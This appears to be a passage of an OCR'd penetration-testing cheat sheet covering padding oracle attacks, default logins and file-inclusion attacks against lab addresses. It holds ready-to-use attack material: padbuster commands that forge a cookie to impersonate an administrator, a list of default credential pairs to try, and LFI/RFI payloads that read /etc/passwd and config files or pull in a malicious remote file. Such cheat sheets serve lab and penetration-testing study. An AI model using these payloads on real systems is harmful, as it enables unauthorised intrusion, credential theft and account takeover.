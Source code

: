 ```
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding"
# Get cookie for other user (impersonation)
padbuster http://10.10.1.111/index.php xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka 8 -cookies "user=xDwqvSF4SK1BIqPxM9fiFxnWmF+wjfka" -error "Invalid padding" -plaintext 'user=administratorme'
```


### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
```

```
admin / admin
admin / password
admin / admin12345
admin / letmeinplease
admin / <blank>
admin / <servicename>
admin / <name of the box>
administrator / admin
user / user
user / 12345
user / password
guest / guest
root / root
root / admin
root / password
root / <servicename>
<username if you have> / password
<username if you have> / admin
<username if you have> / username
username / <servicename>
<name of the box> / <name of the box>
<name of the service / application> <name of the service / application>
default account / <name of the application>

```


### LFI/RFI


```
fimap -u "http://10.11.1.111/example.php?test="

# Ordered output
curl -s http://10.11.1.111/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://10.11.1.111/example.php?page=

http://10.11.1.111/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd && base64 -d savefile.php
http://10.11.1.111/page=http://10.11.1.111/maliciousfile.txt%00 or ?
?page=php://filter/convert.base64-encode/resource=../config.php

file=C:\windows\system32\drivers\etc\hosts  #Windows file

amap -d 10.11.1.111 8000

# LFI Windows

http://10.11.1.111/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00

```